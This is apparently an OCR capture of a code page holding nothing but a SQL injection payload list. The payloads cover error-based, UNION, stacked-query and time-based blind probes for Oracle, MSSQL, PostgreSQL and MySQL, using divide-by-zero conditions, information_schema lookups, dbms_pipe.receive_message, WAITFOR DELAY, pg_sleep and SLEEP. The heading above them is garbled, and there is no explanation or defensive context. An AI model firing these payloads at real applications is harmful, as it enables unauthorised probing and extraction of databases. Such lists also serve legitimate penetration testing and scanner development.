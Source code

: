 SACA EL WIJI XELI

```
'-- -
''
' SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--+-
' UNION SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--+-
'; SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--+-
' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--+-
'; SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--+-
' AND 1 = (SELECT CASE WHEN (1=2) THEN 1/(SELECT 0) ELSE NULL END)--+-
' OR 1 = (SELECT CASE WHEN (1=2) THEN 1/(SELECT 0) ELSE NULL END)--+-
'; OR 1 = (SELECT CASE WHEN (1=2) THEN 1/(SELECT 0) ELSE NULL END)--+-
'; AND 1 = (SELECT CASE WHEN (1=2) THEN 1/(SELECT 0) ELSE NULL END)--+-
' SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
' UNION SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
'; SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')

' SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--+-
' UNION SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--+-
'; SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--+-
' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--+-
'; SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--+-
' AND 1 = (SELECT CASE WHEN (1=1) THEN 1/(SELECT 0) ELSE NULL END)--+-
' OR 1 = (SELECT CASE WHEN (1=1) THEN 1/(SELECT 0) ELSE NULL END)--+-
'; OR 1 = (SELECT CASE WHEN (1=1) THEN 1/(SELECT 0) ELSE NULL END)--+-
'; AND 1 = (SELECT CASE WHEN (1=1) THEN 1/(SELECT 0) ELSE NULL END)--+-
' SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
' UNION SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
'; SELECT IF(1=1,(SELECT table_name FROM information_schema.tables),'a')
' dbms_pipe.receive_message(('a'),20)--+-
' OR dbms_pipe.receive_message(('a'),20)--+-
' AND dbms_pipe.receive_message(('a'),20)--+-
' SELECT dbms_pipe.receive_message(('a'),20)--+-
'; SELECT dbms_pipe.receive_message(('a'),20)--+-
' UNION SELECT dbms_pipe.receive_message(('a'),20)--+-
LIMIT (SELECT dbms_pipe.receive_message(('a'),20))--+-
' WAITFOR DELAY '0:0:20'--+-
'; SELECT WAITFOR DELAY '0:0:20'--+-
' UNION WAITFOR DELAY '0:0:20'--+-
' AND WAITFOR DELAY '0:0:20'--+-
' OR WAITFOR DELAY '0:0:20'--+-
LIMIT SELECT(WAITFOR DELAY '0:0:20')--+-
'SELECT pg_sleep(20)--+-
'||pg_sleep(20)--+-
'; SELECT pg_sleep(10)--+-
'||pg_sleep(10)--+-
';UNION SELECT pg_sleep(10)--+-
LIMIT (SELECT+pg_sleep(20))--+-
'SELECT SLEEP(20)--+-
'||SLEEP(20)--+-
';SELECT SLEEP(20)--+-
'UNION+SELECT SLEEP(20)--+-
LIMIT (SELECT SLEEP(20))--+-
'UNION+SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),20) ELSE NULL END FROM dual'--+-
'SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),20) ELSE NULL END FROM dual--+-
';SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),20) ELSE NULL END FROM dual--+-
LIMIT (SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),20) ELSE NULL END FROM dual)--+-
'IF (1=1) WAITFOR DELAY '0:0:20'--+-
'SELECT IF (1=1) WAITFOR DELAY '0:0:20'--+-
'; SELECT IF (1=1) WAITFOR DELAY '0:0:20'--+-
'UNION SELECT IF (1=1) WAITFOR DELAY '0:0:20'--+-
```